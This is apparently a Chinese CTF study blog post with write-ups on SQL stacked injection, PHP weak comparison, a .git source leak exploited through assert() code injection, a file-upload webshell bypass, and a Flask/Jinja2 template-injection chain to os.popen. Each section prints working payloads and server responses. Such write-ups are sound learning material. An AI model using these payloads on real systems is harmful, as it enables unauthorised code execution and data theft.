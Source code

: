 ```yaml
---
layout: post 
title: "2020.3.15学习总结"
date: 2020-03-15
author: su29029
tags: Web
---
```

### sql堆叠注入[stack injection]
当我们无法使用select等查询语句时[通常来说是被过滤了]，我们可以考虑尝试堆叠注入。所谓堆叠注入，顾名思义，就是一次性执行多条sql语句。我们知道sql语句以分号```;```结束，故如果我们使用分号提前结束前一条sql语句，然后再在分号后面执行我们想执行的语句，最后注释掉原本后面的sql语句段，就能实现堆叠注入的效果，从而造成了sql注入。  
不过sql堆叠注入的利用条件有限，通常只有在后台sql允许一次执行多条语句时才能利用。以一个题来举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1  
拿到题目先尝试```'```发现sql报错，故判断存在sql注入点。随后```1'or '1'='1```，发现有回显，随后借助```order by```发现有两列，但尝试union select查询时发现了下面这条提示：  
<img src="/assets/img/20200315学习总结/20200315学习总结1.jpg">  
发现select，update，drop等等关键词都被过滤了，而且发现通过大小写，加注释等方式无法绕过，故只能放弃这一注入方式。随后尝试堆叠注入。  
尝试显示一下所有数据库和所有数据表。  
<img src="/assets/img/20200315学习总结/20200315学习总结2.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结3.jpg">  
随后显示出words表和1919810931114514表的列：  
<img src="/assets/img/20200315学习总结/20200315学习总结4.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结5.jpg">  
发现在19198109931114514表中存在我们想要的flag，且查询的时候是查询words表里的id，故我们尝试更改表名并把flag列名修改成id列名，19198109931114514表名修改成words表名。  
最终payload：```1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100)```  
<img src="/assets/img/20200315学习总结/20200315学习总结6.jpg">  
最后通过```1'or '1'='1 #```得到flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结7.jpg">  
### php == 弱类型比较
php中有两种比较方式，```==```和```===```，其中==在进行比较的时候，会先将字符串类型转化成相同，再比较，而===在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。举几个例子：  
<img src="/assets/img/20200315学习总结/20200315学习总结8.jpg">  
当php比较字符串和数字时，会将字符串向数字尝试转换，字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则值为0。但当字符串中出现.,e,E等字符时，如果字符前后都可转化为合法数字，则.会使字符串转化为小数，e,E会将字符串转换为科学计数法表示的数字。布尔值和数字比较时，true和大于等于1的数弱类型相等，false和0相等。  
### git源码泄露
git是一个是一个开源的分布式版本控制系统，可以有效、高速地处理从很小到非常大的项目版本管理。而初始化一个git目录时，会产生一个.git的文件夹，如果没有处理好则会造成git源码泄露。git源码可以通过GitHack来获取文件。以一个题目来举例子。  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5002&page=1  
拿到题目收集一下信息，F12发现element的注释里有个flag，访问发现为空。发现about页面提示使用了git，判断存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结9.jpg">  
访问/.git/目录，发现果然存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结10.jpg">  
随后使用[GitHack](https://github.com/lijiejie/GitHack)将源码还原。  
<img src="/assets/img/20200315学习总结/20200315学习总结11.jpg">  
打开flag.php，发现内容是空的。  
<img src="/assets/img/20200315学习总结/20200315学习总结12.jpg">  
打开index.php看看，发现了关键代码：  
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
<img src="/assets/img/20200315学习总结/20200315学习总结13.jpg">  
发现对page的内容只过滤了```..```，故尝试通过闭合连接字符串和执行系统命令来获取flag。故构造如下payload：```'.system("cat ./templates/flag.php").'```最后在注释里面获得flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结14.jpg">  
### 文件上传
题目链接：https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload
打开题目发现有一个文件上传的接口，随便上传一个1.jpg看看，发现提示Not Image。  
<img src="/assets/img/20200315学习总结/20200315学习总结15.jpg">  
修改请求，写入一句话木马，并修改文件名为1.php，再次上传，发现提示错误。
<img src="/assets/img/20200315学习总结/20200315学习总结16.jpg">  
使用phtml后缀绕过，再次提交，依然发现错误。  
<img src="/assets/img/20200315学习总结/20200315学习总结17.jpg">  
说明后台对文件内容也进行了分析，提示发现```<?```故尝试通过```<script language="php"></script>```绕过，发现成功上传木马。  
<img src="/assets/img/20200315学习总结/20200315学习总结18.jpg">  
下面就简单了，使用蚁剑连接。然而发现直接连接/1.phtml会报错，故猜测/upload/1.phtml路径，发现成功连接。  
<img src="/assets/img/20200315学习总结/20200315学习总结19.jpg">  
(发现了好多不同的文件后缀，应该除了.phtml其他格式应该也能绕过吧，回头都试试嗯)
后面搜一搜服务器，flag就到手了。  
<img src="/assets/img/20200315学习总结/20200315学习总结20.jpg">  
### python flask 模板注入
python的flask框架使用Jinja2作为模板渲染引擎，如果render_template_string函数在渲染模板的时候使用了%s来动态的替换字符串，这里将造成ssti漏洞。Jinja2中{{}}是变量包裹标识符，它会将{{}}中的内容当作变量解析替换，如果我们的url中也含有{{}}的话，就会造成ssti。  
以一个题目举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1  
打开题目提示python template injection，尝试{{2×3}}发现表达式被执行，故存在ssti。  
<img src="/assets/img/20200315学习总结/20200315学习总结21.jpg">  
我们现在需要考虑借助这个ssti获得服务器的控制台权限。因为是python的框架，所以我们需要使用python来获取控制台权限，我们想到了```os.system```和```os.popen```两个方法，前者返回**退出状态码**，后者以**file形式**返回**输出内容**。这里我们要看到内容，故选择```os.popen```。    

那么怎么找到这个方法呢，python为我们提供了完整的查找链：  
```
__class__:返回对象所属类；
__mro__:返回一个类所继承的基类元组，方法在解析按照元组的顺序解析；
__base__:返回该类所继承的基类；
__subclasses__:每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表；
__init__:类的初始化方法；
__globals__:对包含函数全局变量的字典的引用。
```  

ok，我们可以开始操作了。  
首先找到当前变量所在的类。
```
''.__class__
```
服务器返回：  
```
URL http://111.198.29.45:59359/<type 'str'> not found
```
这个回复告诉我们，当前变量所在的类是str。   
随后我们找到它的基类。   
```
''.__class__.__mro__
```
服务器返回：  
```
URL http://111.198.29.45:59359/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found
```  
基类也有了。   
下一步找到任意一个基类的引用列表。
```
''.__class__.__mro__[2].__subclasses__()
```
服务器返回了一大串，我们找到os所在的```site._Printer```类，它在第72位，即```__subclasses__()[71]```。   
于是我们可以开始读取命令行输出了。   
```
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
```
服务器返回：  
```
URL http://111.198.29.45:59359/fl4g index.py not found
```  
最后一步，读取fl4g。  
```
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```
服务器返回：  
```
URL http://111.198.29.45:59359/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found
```  
flag到手。  
